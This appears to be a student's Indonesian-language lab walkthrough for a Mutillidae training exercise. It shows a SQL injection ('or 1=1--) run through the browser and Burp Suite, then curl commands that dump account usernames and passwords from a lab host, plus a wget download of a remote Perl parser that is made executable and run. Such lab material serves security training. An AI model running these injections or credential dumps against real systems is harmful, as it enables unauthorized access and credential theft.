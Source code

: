 #### LESSON 7

1. Membuka halaman mutillidae dengan memasukkan url `IPmetasploit/mutillidae` kemudian masuk ke user info seperti gambar berikut :
![](Mutillidae%20lesson%207/mutillidae%201.png)

2. Setting networks pada mozilla di kali linuk seperti pada gambar : 
![](Mutillidae%20lesson%207/mutillidae%202.png)

3. Kemudian buka burpsuite, setelah itu cek proxy dan klik `intercept is on` seperti pada gambar : 
![](Mutillidae%20lesson%207/mutillidae%203.png)

![](Mutillidae%20lesson%207/mutillidae%204.png)

4. Isi dengan name `' or 1=1-- ` kemudian klik `View Account Details` (jangan lupa memberikan spasi setelah tanda `--`).

5. Hasilnya : 
![](Mutillidae%20lesson%207/mutillidae%205.png)

6. Buka aplikasi burpsuite pilih tab proxy, lalu http history, cari host `IPmetasploit`, method `get`, URL `/mutillidae/index.php?page=user-info..` seperti pada gambar berikut : 
![](Mutillidae%20lesson%207/mutillidae%206.png)

7. Buka terminal lalu ketik `curl -b crack_cookies.txt -c crack_cookies.txt -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" -d "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" -L "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'` (perhatikan jika sudah memiliki file crack_cookies.txt sebelumnya harus dihapus terlebih dahulu ) 
![](Mutillidae%20lesson%207/mutillidae%207.png)

8. setelah itu ketik `curl -b crack_cookies.txt -c crack_cookies.txt -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" -d "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" -L "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt` 
![](Mutillidae%20lesson%207/mutillidae%208.png)

9. kemudian download output parser di : `wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT`

10. setelah itu ketik `mv lesson7.pl.TXT lesson7.pl` dan `chmod 700 lesson7.pl`

11. kemudian ketik `./lesson7.pl` 
![](Mutillidae%20lesson%207/mutillidae%2010.png)
